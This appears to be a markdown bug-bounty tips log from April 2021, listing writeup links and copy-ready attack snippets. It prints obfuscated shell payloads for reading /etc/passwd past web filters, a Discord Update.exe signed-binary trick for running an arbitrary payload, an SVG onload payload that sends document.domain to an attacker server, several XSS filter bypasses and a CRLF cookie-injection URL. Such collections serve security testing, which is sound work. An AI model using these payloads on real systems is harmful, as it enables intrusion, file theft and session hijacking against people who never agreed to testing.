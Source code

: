 # Bug Bounty Tips - April 2021

# 📅 01-Apr-2021
## Exploiting Account TakeOver => CSRF + CORS
- https://nirajmodi51.medium.com/missing-cors-leads-to-complete-account-takeover-1ed4b53bf9f2

## MindAPI 
Organize your API security assessment by using MindAPI. It's free and open for community collaboration.
- https://github.com/dsopas/MindAPI

## Bug Bytes 116
- https://blog.intigriti.com/2021/03/31/bug-bytes-116-new-oauth-attacks-hacking-shopify-with-a-single-dot-netmask-ssrf/

# 📅 02-Apr-2021
## Facebook Account Takeover writeups
- https://ysamm.com/?p=654
- https://ysamm.com/?p=646

## Dangerous Functions | Binary Exploitation 0x01
- https://youtu.be/EJtUW2AklVs

# 📅 05-Apr-2021
## Shodan Dorks
Everyone knows how to find Directory Listing Using Google Dorks Right?
Dork - intitle:"Index of /"

We can do the same with Shodan to find even more Directory Listings!

Dork- `http://ssl.cert.subject.CN:"*target.*" 200 http.title:"Index of /"`

## Obfuscation Random characters

### Payloads

```sh
$aaaaaaa/bin$bbbbbb/cat$ccccccc $dddddddd/etc$eeeeeee/passwd$ggggggg

$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```
### Proof of Concept
![img](https://pbs.twimg.com/media/EyMKkZWVEAAInk9?format=png&name=small)
![img](https://pbs.twimg.com/media/EyMKkZXUYAIaclN?format=png&name=large)
***Source: https://twitter.com/sec715/status/1378957974790492160?s=20***

# 📅 07-Apr-2021
## RCE on Windows Application

Copy your payload into `%userprofile%\AppData\Local\Discord\Current\`

Then

```cmd
%userprofile%\AppData\Local\Discord\Update.exe --processStart payload.exe --process-start-args "whatever args"
```

Trusted signed binary will run the payload for you Smiling face with smiling eyes

***Source: https://twitter.com/smelly__vx/status/1379519938197655566?s=20***

# 📅 08-Apr-2021
## Facebook account takeover due to a wide platform bug in ajaxpipe responses
- https://ysamm.com/?p=654

## RCE WAF Bypass

```sh
;+$u+cat+/etc$u/passwd$u
;+$u+cat+/etc$u/passwd+\#
/???/??t+/???/??ss??
/?in/cat+/et?/passw?
```

# 📅 09-Apr-2021
## Writing Network Templates with Nuclei
- https://t.co/TiE9cg5p2K?amp=1

## Cloudflare bypass all browsers.
```js
<svg/onload=location/**/='https://your.server/'+document.domain>
```

# 📅 12-Apr-2021
## Bypassing root detection , certificate pinning using https://github.com/Ch0pin/medusa  anti_debug and unpinner modules 
@Einstais @mobilesecurity_
- https://twitter.com/Ch0pin/status/1381216805683924994?s=20

## XSS Bypass Tip
Hot XSS tip: did you know `window.alert?.()` and `(window?.alert)` will pop an alert? The ?. is a feature called optional chaining and as far as I can tell it's not in any popular XSS payload lists. Worth trying if you're looking for filter bypasses!
![img](https://pbs.twimg.com/media/EygnbstWUAAodo0?format=png&name=small)

## XSS Payload via email
`hello"><img/src="x"onerror=alert(document.domain)>@mail.com`
***source : https://hackerone.com/reports/1107726***

### XSS on glassdoor
```js
"&gt;&lt;img+src+onerror=confirm&amp;#x00028;1&amp;#x00029;&gt;
```
***Source : https://hackerone.com/reports/789689***

## CRLF Injection
- https://hackerone.com/reports/1038594
### Example
```text
https://www.abc.com/%0D%0ASet-Cookie:crlfinjection=crlfinjection
```
